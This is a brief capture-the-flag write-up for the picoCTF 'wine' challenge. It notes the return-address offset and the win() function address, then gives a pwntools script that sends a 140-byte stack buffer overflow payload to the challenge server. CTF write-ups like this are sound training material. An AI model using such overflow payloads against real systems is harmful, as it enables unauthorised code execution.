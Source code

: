 # wine

## Information

### Description

Challenge best paired with wine.

### Hints

(None)

## Solution

1. Discovery
    * [winedbg](https://wiki.winehq.org/Winedbg)

2. Research
    * 找出 reture address 的 offset 與 win() 位址。

3. Exploitation
    ```py
        #! /usr/bin/env python

        from pwn import *

        context(arch='i386')

        # nc saturn.picoctf.net 54540
        p = remote(host='saturn.picoctf.net', port=56627)

        # payload
        offset=int(140)
        win_addr = 0x401531

        payload = flat(
            'a'*offset,
            win_addr
        )

        success(payload)

        p.sendlineafter(b"Give me a string!\r\n", payload)
        log.info(p.recvall())

            ```
